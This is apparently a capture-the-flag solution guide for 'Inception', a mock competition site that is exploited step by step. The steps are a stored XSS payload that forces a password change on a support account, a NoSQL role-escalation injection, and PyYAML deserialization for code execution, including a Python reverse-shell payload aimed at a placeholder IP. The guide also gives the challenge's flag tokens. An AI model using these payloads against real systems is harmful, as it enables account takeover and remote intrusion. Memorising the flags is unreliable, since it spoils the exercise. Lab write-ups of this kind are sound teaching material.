# Inception

*Solution Guide*

## Overview

In Inception, the competitors are tasked with breaking into a website that recreates the graphical front-end of the President's Cup gameboard site. The site includes a recreation of the gameboard itself during PCCC VI Finals Track B, including the actual challenge descriptions from that round, a simplified recreation of the support system with automated support staff bots, and simple controls to configure the theming/challenges (as this is not normally seen by competitors, the appearance is simplified and completely different from the real system). Competitors will be tasked with using XSS to hack into a support account, performing a NoSQL injection attack to escalate privileges, and finally use YAML deserialization and Zip Slip attacks to gain terminal access and modify the website.  

## Question 1

*Token 1: The first developer is dreaming of providing support. Gain access to a support account to find the token.*

For our first token, we need to gain access to one of the developer's support accounts. Let's first start by checking out the `http://pccc.pccc` website. When visiting the site, we are greeted with an almost 1-to-1 recreation of the PCCC site from last year.



Go ahead and click the "Log In" option in the top right, and then register for an account. The challenge is designed to allow weak emails/passwords for easy log in. For example, the following uses `a@a.a` and password `a`.



The login and registration process is quite different from the real PCCC site, and will be an important difference for completing this task. Once logged in, you can now access the `Track B - Finals` game on the home page. Note that the other two games are fake, and when clicked will endlessly call `alert("Subconscious block...")`, forcing you to reload the page. Visiting the Track B page, we are greeted with a copy of the gameboard from PCCC VI Finals, with the real challenge descriptions from that round (although the actual challenge machines are not provided). 



You also now have access to the "Support" and "Profile" pages. First, viewing the "Profile" page, there is another large deviation from the real PCCC site, with the profile page containing a "Password Change Form".



Finally, we have the Support page, which is just an empty table at the moment. However, there is a button there to create a new support ticket. With a good understanding of what we have access to know, we can begin searching for any odd behavior or bugs that might be exploitable. We can test if the support form is vulnerable to XSS with the following simple payload: `Test<script>console.log("XSS")</script>`. 



Submitting the malicious support ticket, we can see that the challenge is vulnerable to XSS. If you refresh the page after about 20 seconds, and then again after about 5 minutes, you'll also see that a support team member also visits the page and responds. In the following screenshot, we can see the Firefox console printed the string `XSS` at the bottom of the page (use `<CTRL+SHIFT+K>` to quickly open the console in Firefox) and a response from one of the support team members. 

Note the developer chosen is random from a list of four: `OTA-Kevin, OTA-Alex, OTA-Jake, OTA-Malakai`. Also note that the developer will **not** be able to respond if you take some action that changes the website behavior (for example, calling `alert`).



Having identified the vulnerability, we now need to figure out a payload that gains us access to the account. Stealing a session cookie does not appear to be possible in this scenario. Instead, let's go back to the "Profile" page with the password change form we found earlier. Inspecting the raw HTML form, we find the following:

```html
<form method="post" novalidate="">
  <div class="mb-3">
    <label class="form-label"><label for="new_password">New password</label></label>
    <input class="form-control" id="new_password" name="new_password" required="" type="password" value="">
  </div>
  <div class="mb-3">
    <label class="form-label"><label for="confirm">Confirm new password</label></label>
    <input class="form-control" id="confirm" name="confirm" required="" type="password" value="">  
  </div>
  <input class="btn btn-success w-100" id="submit" name="submit" type="submit" value="Update password">
</form>
```

This is a very poorly created password change form, as it does not verify the current password and does not contain a Cross-Site Request Forgery (CSRF) token like the other forms on the site. This means we can forge a password change request using the XSS-vulnerable support ticket. When the support team member visits the support ticket, our script will execute and send a password change `POST` request. The following payload changes the user's password to `password`, and does not interfere with the normal operation of the site.

```html
<script>
    fetch("http://pccc.pccc/profile", {
        method: 'POST',
        headers: {"Content-Type": "application/x-www-form-urlencoded"},
        body: "new_password=password&confirm=password&submit=Update+password"
    })
</script>
```

Note that if your script **does** interfere with the normal site operation, the support member won't comment, and you won't know which team member had their password changed. If so, you'll need to try each of the four accounts to determine which one was effected.

**Also note that your password will be changed!** Unless you submitted the form in a way that doesn't redirect automatically (e.g., `curl` or `Burpsuite`) or you have scripts disabled, you also visited the support page yourself. This means *your browser* also automatically ran the payload and changed your password. **If you need to log into your original account again, you'll need to use the injected password!**

We have one final issue to resolve: the site uses emails for log in, not our usernames. We don't know any of the emails for the support staff, and need to explore the site further to see if it is leaked somewhere. The only page we haven't viewed yet is the "Getting Started", which conveniently contains the following line near the end:

`If you need assistance and cannot reach the support desk (e.g., trouble with log in), please email OTA-help@pccc.pccc.`

The generic help account uses `OTA-help@pccc.pccc`, so it is very likely the emails for the support staff are the same. Try logging into the `OTA-{Name}@pccc.pccc` account with the password you injected, using whichever name responded on the ticket. After logging in as one of the support accounts, you'll be presented with the token in a flashed message.



In this case, the token is `PCCC{Welcome2Support_SLAis5minutes_1879} `.

## Question 2

*Token 2: The second developer is dreaming of becoming an admin. Gain access to an admin account to find the token (if not displayed immediately, log out and back in after escalating).*

With the support access we gained, we now have access to a new "Users" tab. This page provides a table listing all of the user accounts, including their role and the ability to change their username.



Like before, we should begin by checking this form for vulnerabilities. If we put in anything that seems like valid `json` with an opening and closing set of braces, the site will appear to do nothing but say that a successful update was made. Setting invalid `json` like `{"a"}` will throw an error. There are few possibilities here, but the most likely (and correct) option is that the form is vulnerable to NoSQL injection.

Given the form's function, it is most likely that the query is being passed to an unsanitized `$set` operation in MongoDB (you can see where this occurs in the [source code](../challenge/pccc/app/app.py) on line 316). We can use the following value to update our user role to `admin`. Paste this value into the username box for whichever user you logged in as during Token 1 (or your original account). You can do this to all of the account if you'd like.

```json
{"role": "admin"}
```

After running the payload, you can see that the role for that account has changed to `admin`. In the following image, all of the accounts have been switched to admin.



However, we do not get the token right away. As the challenge description states, we need to first log out and log back in. The original intention was to change the password for the admin account, so the token was only checked at login, but we realized it is much easier to just change the role instead. The following image shows the token presented after logging in.



In this case, the token is `PCCC{AnIdea_IsLike_AVirus_SoAreYou_1159}`.

## Question 3

*Token 3: The third developer is dreaming about the infrastructure. Find this token in `/app/token.txt`.*

Now that we have access to an admin account, we now also have access to an "Admin" tab. The admin tab allows us to reconfigure the website by uploading two files. We don't know what these files look like, but we can download copies of these files using the two links on the page. For now, let's focus on the game/challenge configuration files, so click `Original Challenge Configuration`. We will explore the theme in Question 4.



The challenge configuration file, named `game_original.yaml`, is a YAML file that takes the following form:

```yaml
game:
  title: PC6 Finals – Track B
  cover: pccc/imgs/trackB.webp
  map: pccc/imgs/map.png
  challenges:
    - name: Kessel Run
      markdown: pccc/challenges/1.md
      point: 
        x: 70.6
        y: 53
        r: 5.15
      questions:
        - text: Enter the token found after accessing /token in the Maelstrom.
          points: 700
        - text: Enter the token found after accessing /token in the Maw.
          points: 1050
        - text: Enter the token found after accessing /token on Kessel.
          points: 1750
    - name: Mindhunter
      markdown: pccc/challenges/2.md
      point: 
        x: 37.5
        y: 61
        r: 5.2
      questions:
        - text: 🧠 Obtained by changing views - exploit the first vulnerability (mind)
          points: 290
        - text: 🥷 Obtained by drowning out the noise - a second view on things (body)
          points: 725
        - text: ⛅ Obtained through self reflection - a third perspective (soul)
          points: 870
        - text: ✌️ Obtained through patience - a fourth perspective (peace)
          points: 1015
    - name: The Crucible
      markdown: pccc/challenges/3.md
      point:
        x: 37
        y: 13.8
        r: 5.2
      questions:
        - text: Enter the token locked away for only those with Honor to access.
          points: 1050
        - text: Enter the token that echoed out of Oblivion.
          points: 1225
        - text: Prove your dominance and enter the token provided only to a Champion.
          points: 1225
    - name: va_list Adventure
      markdown: pccc/challenges/4.md
      point:
        x: 65.7
        y: 76.2
        r: 5.1
      questions:
        - text: Enter token received from challenge.us after successfully inputting the address of the playerName char array.
          points: 660
        - text: Enter token received from challenge.us after successfully inputting the address of the player struct.
          points: 1320
        - text: Enter the token found in the globalStr array on exploit.us.
          points: 1320
```

Viewing the contents, we can see all of the challenge and game information we saw on `http://pccc.pccc/game` and a few other locations. For example, we can see the game title, file paths for the images, and each of the four challenge and their questions. Somehow, we need to use this YAML file to gain access to `/app/token.txt`.

It is expected that many competitors will first try to set one of the image paths in the config file to `/app/token.txt`. This will not work, however, as the image paths are set in the `image` tag URLs for `http://pccc.pccc/static/themes/pccc/imgs/{filename}`. While we can try path traversal, Flask correctly limits access to the `static` directory.

Instead, we can try to exploit [Python-specific YAML tags](https://pyyaml.org/wiki/PyYAMLDocumentation#yaml-tags-and-python-types) to gain code execution. Using these tags, we can convert the specified data to Python objects. Using the available complex Python tags, we can even load modules and execute functions from them. This tag looks like the following, where `module` is the name of the module we want to use, and `f` is the name of the function to run: `!!python/object/apply:module.f`.

A clever trick for this attack is to use `builtins.eval` as our module/function. This function takes a string of Python code and executes it. Under the [documentation](https://pyyaml.org/wiki/PyYAMLDocumentation#Objects:~:text=python/module%3Ayaml-,Objects,-Any%20pickleable%20object) for that tag, we can see we can provide arguments to the functions. Since we just want to provide simple arguments, we can just provide those arguments as a list after the Python tag.

The following YAML Python tag will execute Python code that opens and reads the file `/app/token.txt`.

```yaml
!!python/object/apply:builtins.eval
  - "__import__('pathlib').Path('/app/token.txt').read_text()"
```

We could use a lot of different payloads here (we could even get a shell!), but this won't provide much of an advantage in this scenario. The YAML file is loaded using an unprivileged account with little to no access. If you do want a reverse shell, though, you can use the following payload (be sure to change the IP, and run `nc -lvnp 4242` first to listen for the reverse shell).

```yaml
!!python/object/apply:subprocess.run
  args: 
    - python -c 'import socket,os,pty;s=socket.socket();s.connect(("IP",4242));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
  kwds: 
    shell: True
```

We will stick to the one that reads the file, as it is easier to accomplish. We will need to put the text in a value that appears somewhere readable on the website. The following YAML file reads the token into the game title.

```yaml
game:
  title: !!python/object/apply:builtins.eval
  - "__import__('pathlib').Path('/app/token.txt').read_text()"
  cover: pccc/imgs/trackB.webp
  map: pccc/imgs/map.png
  challenges:
    - name: Kessel Run
      markdown: pccc/challenges/1.md
      point: 
        x: 70.6
        y: 53
        r: 5.15
      questions:
        - text: text
          points: 700
```

Copy the YAML into a file, and then upload the file to game configuration form. To find the token, navigate to the game page where the game title is displayed: `http://pccc.pccc/game`.



In this case, the token is `PCCC{PerfectlyPossible_JustBloodyDifficult_3060}`.

## Question 4

*Token 4: The fourth developer is dreaming about the logs. Send the message `GIVEMETHETOKEN` to `/app/log.txt`, and the developer will add the token to the home page.*

Now we need to explore the other upload for any vulnerabilities. First, let's figure out what type of file is expected by downloading the "Original Themes Folder". It will be a ZIP file named `game_theme_original.zip`. Open a terminal, and unzip the file with `unzip game_theme_original.zip`. Note you may want to download the original YAML configuration, and restore the initial challenge configuration, to ensure everything works as expected.

```bash
unzip game_theme_original.zip 
Archive:  game_theme_original.zip
   creating: pccc/
   creating: pccc/challenges/
  inflating: pccc/challenges/1.md    
  inflating: pccc/challenges/2.md    
  inflating: pccc/challenges/3.md    
  inflating: pccc/challenges/4.md    
   creating: pccc/imgs/
  inflating: pccc/imgs/trackB.webp   
  inflating: pccc/imgs/map.png       
  inflating: pccc/imgs/KesselRun.png  
```

We can recognize some these files from the YAML configuration file, and the website more broadly. For example, the `pccc/imgs/trackB.webp` file contains the game's cover image, while the `pccc/challenges/X.md` files contain the challenge descriptions. It appears that by changing or adding files (to see added files, we will also need to change the YAML), and uploading the new ZIP file, we can change the images and challenges on the game site. The easiest way to confirm this is to add a message like "CHANGED THE MD HERE" to one of the markdown files, add the modified file to the archive, and uploading the ZIP file.  To do this, we can run:

```bash
echo "# CHANGED THE MD HERE" > pccc/challenges/1.md
zip -r game_theme_original pccc
```

